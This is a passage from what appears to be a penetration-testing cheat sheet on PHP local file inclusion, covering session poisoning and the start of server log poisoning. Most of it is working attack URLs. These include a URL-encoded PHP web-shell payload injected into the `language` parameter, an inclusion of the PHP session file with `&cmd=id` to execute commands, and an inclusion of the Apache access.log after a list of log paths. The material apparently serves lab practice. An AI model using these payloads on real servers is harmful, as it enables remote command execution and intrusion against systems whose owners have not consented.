 The session file contains `session_poisoning` instead of `es.php`, which confirms our ability to control the value of `page` in the session file.

### 5.- Poisonning the PHPSESSID

```bash
http://<SERVER_IP>:<PORT>/index.php?language=%3C%3Fphp%20system%28%24_GET%5B%22cmd%22%5D%29%3B%3F%3E
```

### 6.-  Include the session file and use the `&cmd=id` to execute a commands

```bash
http://<SERVER_IP>:<PORT>/index.php?language=/var/lib/php/sessions/sess_nhhv8i0o6ua4g88bkdl9u1fdsd&cmd=id
```

## **Server Log Poisoning**

### access.log file path (Apache)

Linux: `/var/log/apache2/` 

Windows: `C:\xampp\apache\logs\`

### access.log file path (Nginx)

Linux: `/var/log/nginx/` 

Windows: `C:\nginx\log\`

### 1.- Include and check access.log file

```bash
http://<SERVER_IP>:<PORT>/index.php?language=/var/log/apache2/access.log
```

![lfi_image5.png](../Images/lfi_image5.png)
